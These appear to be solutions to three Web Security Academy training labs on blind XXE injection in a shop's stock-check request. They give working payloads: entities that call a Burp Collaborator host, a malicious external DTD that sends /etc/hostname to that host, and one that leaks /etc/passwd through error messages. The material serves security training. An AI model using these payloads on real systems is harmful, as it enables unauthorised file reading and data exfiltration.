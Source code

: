 1.  Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2.  Go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
3.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4.  Insert the following external entity definition in between the XML declaration and the `stockCheck` element, but insert your Burp Collaborator subdomain where indicated:  
    `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>`
5.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Place the Burp Collaborator payload into a malicious DTD file:  
    `<!ENTITY % file SYSTEM "file:///etc/hostname">  
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">  
    %eval;  
    %exfil;`
4.  Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5.  You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6.  Insert the following external entity definition in between the XML declaration and the `stockCheck` element:  
    `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
7.  Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8.  You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the `/etc/hostname` file.

### Lab: Exploiting blind XXE to retrieve data via error messages

1.  Click "Go to exploit server" and save the following malicious DTD file on your server:  
    `<!ENTITY % file SYSTEM "file:///etc/passwd">  
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
    %eval;  
    %exfil;`  
    When imported, this page will read the contents of `/etc/passwd` into the `file` entity, and then try to use that entity in a file path.
2.  Click "View exploit" and take a note of the URL for your malicious DTD.
3.  You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
4.  Insert the following external entity definition in between the XML declaration and the `stockCheck` element:  
    `<!DOCTYPE foo [<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR-DTD-URL"> %xxe;]>`  
    You should see an error message containing the contents of the `/etc/passwd` file.
